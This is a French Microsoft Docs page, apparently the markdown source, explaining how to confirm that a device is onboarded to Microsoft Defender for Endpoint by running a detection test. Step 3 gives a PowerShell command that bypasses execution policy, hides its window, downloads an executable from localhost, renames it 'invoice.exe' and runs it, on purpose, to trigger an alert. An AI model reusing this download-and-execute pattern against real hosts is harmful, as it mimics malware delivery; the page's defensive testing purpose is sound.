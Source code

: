 ```yaml
---
title: Exécuter un test de détection sur un appareil pour vérifier qu’il a été correctement intégré à Microsoft Defender pour le point de terminaison
description: Exécutez le script de test de détection sur un appareil récemment intégré au service Microsoft Defender for Endpoint pour vérifier qu’il est correctement ajouté.
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 11b7339dce44d3fb55593e7b54a5d38982f957cd
ms.sourcegitcommit: e5de03d4bd669945fec0d25a3f5eae56f86c9dcc
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 10/01/2021
ms.locfileid: "60043298"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a>Exécuter un test de détection sur un appareil Microsoft Defender pour point de terminaison nouvellement intégré

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


**S’applique à :**
- Versions Windows 10 pris en charge
- Windows Server 2012 R2
- Windows Server 2016
- Windows Serveur, version 1803
- Windows Server 2019
- Windows Server 2022
- [Microsoft Defender pour point de terminaison](https://go.microsoft.com/fwlink/?linkid=2154037)
- [Microsoft 365 Defender](https://go.microsoft.com/fwlink/?linkid=2118804)

> Vous voulez découvrir Microsoft Defender pour point de terminaison ? [Inscrivez-vous pour bénéficier d’un essai gratuit.](https://signup.microsoft.com/create-account/signup?products=7f379fee-c4f9-4278-b0a1-e4c8c2fcdf7e&ru=https://aka.ms/MDEp2OpenTrial?ocid=docs-wdatp-exposedapis-abovefoldlink)

Lorsque vous ajoutez un appareil au service Microsoft Defender for Endpoint pour la gestion, il s’agit également d’appareils d’intégration. L’intégration permet aux appareils de signaler des signaux sur leur état d’état au service.

La vérification ou la vérification de l’ajout réussi d’un appareil au service est une étape essentielle de l’ensemble du processus de déploiement. Il garantit que tous les appareils attendus sont gérés. 

## <a name="verify-microsoft-defender-for-endpoint-onboarding-of-a-device-using-a-powershell-detection-test"></a>Vérifier l’intégration de Microsoft Defender pour endpoint d’un appareil à l’aide d’un test de détection PowerShell

Exécutez le script PowerShell suivant sur un appareil nouvellement intégré pour vérifier qu’il est correctement signalé au service Defender for Endpoint.

1. Créez un dossier : « C:\test-MDATP-test ».
2. Ouvrez une invite de ligne de commande avec élévation de niveaux sur l’appareil et exécutez le script :

   1. Accéder à **Démarrer** et taper **cmd**.

   1. Cliquez avec le bouton droit **sur Invite de** commandes et **sélectionnez Exécuter en tant qu’administrateur.**

      ![Fenêtre menu Démarrer pointant sur Exécuter en tant qu’administrateur.](images/run-as-admin.png)

3. À l’invite, copiez et exécutez la commande suivante :

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

La fenêtre d’invite de commandes se ferme automatiquement. Si elle réussit, le test de détection est marqué comme terminé et une nouvelle alerte s’affiche dans le portail pour l’appareil intégré dans environ 10 minutes.

## <a name="related-topics"></a>Voir aussi

- [Intégrer des appareils Windows 10](configure-endpoints.md)
- [Serveurs intégrés](configure-server-endpoints.md)
- [Résoudre les problèmes d’intégration de Microsoft Defender pour les points de terminaison](/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
